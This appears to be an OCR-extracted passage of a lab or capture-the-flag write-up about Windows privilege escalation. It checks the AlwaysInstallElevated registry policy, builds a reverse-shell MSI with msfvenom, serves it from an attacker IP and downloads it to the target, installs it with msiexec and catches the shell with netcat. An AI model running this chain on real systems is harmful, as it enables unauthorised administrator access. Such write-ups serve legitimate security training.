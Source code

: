 HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer     AlwaysInstallElevated    REG\_DWORD    0x1 PS C:\\Users\\shenzi\\Desktop\> reg query HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer reg query HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer HKEY\_CURRENT\_USER\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer     AlwaysInstallElevated    REG\_DWORD    0x1  We’ll generate .msi payload and transfer it to execute on target machine to get elevated shell. └─$ msfvenom \-p windows/x64/shell\_reverse\_tcp LHOST=192.168.45.154 LPORT=445 \-f msi \> notavirus.msi ![][image25] └─$ python \-m http.server 80 ![][image26] └─$ iwr http://192.168.45.154/notavirus.msi \-o notavirus.msi ![][image27] └─$ PS C:\\Users\\shenzi\\Desktop\> msiexec /i notavirus.msi  └─$ sudo nc \-lvnp 445  Post Exploitation Proof.txt value: c:\\Users\\Administrator\\Desktop\> whoami && ipconfig && type proof.txt |     |